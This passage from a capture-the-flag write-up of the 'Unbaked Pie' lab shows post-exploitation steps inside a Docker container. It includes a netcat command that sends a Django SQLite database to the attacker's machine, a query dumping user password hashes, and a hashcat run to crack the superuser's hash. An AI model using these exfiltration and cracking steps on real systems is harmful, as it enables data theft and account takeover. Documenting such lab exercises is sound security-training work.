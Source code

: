 This indicates that we're inside a docker container.

**Found SQLite database file in `/home/site`:**
```shell
root@8b39a559b296:/home/site# ls -lah
total 184K
drwxrwxr-x 1 root root 4.0K Oct  3  2020 .
drwxr-xr-x 1 root root 4.0K Oct  3  2020 ..
drwxrwxr-x 1 root root 4.0K Oct  3  2020 account
drwxrwxr-x 8 root root 4.0K Oct  3  2020 assets
drwxrwxr-x 1 root root 4.0K Oct  3  2020 bakery
-rw-r--r-- 1 root root 148K Oct  3  2020 db.sqlite3
drwxrwxr-x 1 root root 4.0K Oct  3  2020 homepage
-rwxrwxr-x 1 root root  662 Oct  3  2020 manage.py
drwxrwxr-x 2 root root 4.0K Oct  3  2020 media
drwxrwxr-x 3 root root 4.0K Oct  3  2020 templates
```

**Let's transfer it!**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:49:34]
└> nc -lnvp 4444 > db.sqlite3

root@8b39a559b296:/home/site# nc 10.9.0.253 4444 < db.sqlite3
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:50:30]
└> sqlite3 db.sqlite3 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions
```

**Table `auth_user`:**
```shell
sqlite> SELECT username, password, is_superuser FROM auth_user;
aniqfakhrul|pbkdf2_sha256$216000${Redacted}|1
testing|pbkdf2_sha256$216000${Redacted}|0
ramsey|pbkdf2_sha256$216000${Redacted}|0
oliver|pbkdf2_sha256$216000${Redacted}|0
wan|pbkdf2_sha256$216000${Redacted}|0
```

**User `aniqfakhrul` is a superuser, let's crack it's password hash:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:58:32]
└> echo 'pbkdf2_sha256$216000${Redacted}' > aniqfakhrul.hash

┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:58:39]
└> hashcat -m 10000 aniqfakhrul.hash /usr/share/wordlists/rockyou.txt
[...]
```
